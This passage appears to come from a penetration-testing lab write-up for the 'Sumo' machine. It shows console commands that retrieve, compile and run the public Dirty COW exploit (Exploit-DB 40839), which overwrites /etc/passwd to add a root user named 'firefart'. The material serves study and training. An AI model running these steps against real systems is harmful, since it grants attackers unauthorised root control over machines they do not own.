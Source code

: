 ```console
root@kali:/OSCPv3/offsec_pg/Sumo# searchsploit -m 40839
  Exploit: Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
      URL: https://www.exploit-db.com/exploits/40839
     Path: /usr/share/exploitdb/exploits/linux/local/40839.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /OSCPv3/offsec_pg/Sumo/40839.c
```

```console
www-data@ubuntu:/tmp$ gcc -pthread 40839.c -o 40839 -lcrypt  2>&1 | grep cc1
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

```console
www-data@ubuntu:/tmp$ locate cc1
/etc/ssl/certs/6fcc125d.0
/usr/lib/gcc/x86_64-linux-gnu/4.6/cc1
/usr/share/doc/libgcc1
/usr/share/lintian/overrides/libgcc1
....
....
```

```console
www-data@ubuntu:/tmp$ PATH=${PATH}:/usr/lib/gcc/x86_64-linux-gnu/4.6 
www-data@ubuntu:/tmp$ export PATH
www-data@ubuntu:/tmp$ gcc -pthread 40839.c -o 40839 -lcrypt
www-data@ubuntu:/tmp$ ./40839 test
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: test
Complete line:
firefart:fi6bS9A.C7BDQ:0:0:pwned:/root:/bin/bash

mmap: 7f80757b5000

id
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu:/tmp$ 
```
